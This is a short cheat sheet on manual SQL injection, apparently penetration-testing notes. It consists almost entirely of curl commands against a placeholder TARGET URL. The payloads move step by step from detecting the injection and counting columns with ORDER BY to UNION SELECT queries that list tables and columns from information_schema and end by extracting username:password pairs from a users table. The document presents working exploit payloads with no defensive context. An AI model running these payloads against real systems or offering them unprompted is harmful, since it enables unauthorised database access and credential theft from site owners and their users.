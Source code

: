 # Web Application Exploitation

## SQL Injection Exploitation

### Manual Testing

**Error-Based Detection:**
```bash
# Test for SQL injection
curl "http://TARGET/page.php?id=1'"
curl "http://TARGET/page.php?id=1' OR '1'='1"
curl "http://TARGET/page.php?id=1' AND '1'='2"
```

**Determine Column Count:**
```bash
# ORDER BY method
curl "http://TARGET/page.php?id=1' ORDER BY 1-- -"
curl "http://TARGET/page.php?id=1' ORDER BY 2-- -"
curl "http://TARGET/page.php?id=1' ORDER BY 3-- -"
# Continue until error
```

**Find Displayed Columns:**
```bash
# UNION SELECT with NULL
curl "http://TARGET/page.php?id=1' UNION SELECT NULL,NULL,NULL-- -"

# Replace NULL with numbers to find which display
curl "http://TARGET/page.php?id=1' UNION SELECT 1,2,3-- -"
```

**Extract Database Information (MySQL):**
```bash
# Database version and user
curl "http://TARGET/page.php?id=1' UNION SELECT 1,version(),user()-- -"

# Database name
curl "http://TARGET/page.php?id=1' UNION SELECT 1,database(),3-- -"

# List tables
curl "http://TARGET/page.php?id=1' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database()-- -"

# List columns in users table
curl "http://TARGET/page.php?id=1' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'-- -"

# Extract user credentials
curl "http://TARGET/page.php?id=1' UNION SELECT 1,CONCAT(username,':',password),3 FROM users-- -"
```
